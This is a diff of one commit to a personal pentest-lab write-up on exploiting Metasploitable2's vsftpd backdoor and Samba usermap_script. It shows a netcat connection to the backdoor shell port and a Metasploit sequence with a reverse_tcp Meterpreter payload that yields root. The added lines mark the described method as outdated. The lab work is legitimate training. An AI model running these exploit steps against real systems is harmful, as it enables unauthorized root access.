

Before and after one commit to engraham/Eric_Graham-Portfolio, a Markdown page: Pentest-Labs/metasploitable2_vsftpd-samba.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update metasploitable2_vsftpd-samba.md
made slight note changes as I changed methods a little

````diff
--- a/Pentest-Labs/metasploitable2_vsftpd-samba.md
+++ b/Pentest-Labs/metasploitable2_vsftpd-samba.md
@@ -81,7 +81,7 @@ nc -v <target-ip> 6200
 ```
 * NOTE: I used -v here for a more verbose output.
 
-3. **Result:** Obtained a root shell on the target system. "whoami", and ls command were ran to show root access and files.
+3. **Result:** Obtained a root shell on the target system. "whoami", and "ls" command were ran to show root access and files.
 
 ---
 
@@ -93,6 +93,7 @@ nc -v <target-ip> 6200
 
 ```bash
 msfconsole
+(change me below. I used a slightly different method.)
 use exploit/multi/samba/usermap_script
 set RHOSTS <target-ip>
 set PAYLOAD linux/x86/meterpreter/reverse_tcp
@@ -100,7 +101,7 @@ set LHOST <your-ip>
 run
 ```
 
-3. **Result:** Obtained a Meterpreter session with root privileges.
+3. **Result:** Obtained a Meterpreter session with root privileges. (I did not use Meterpreter. Change this)
 
 ---
 
````
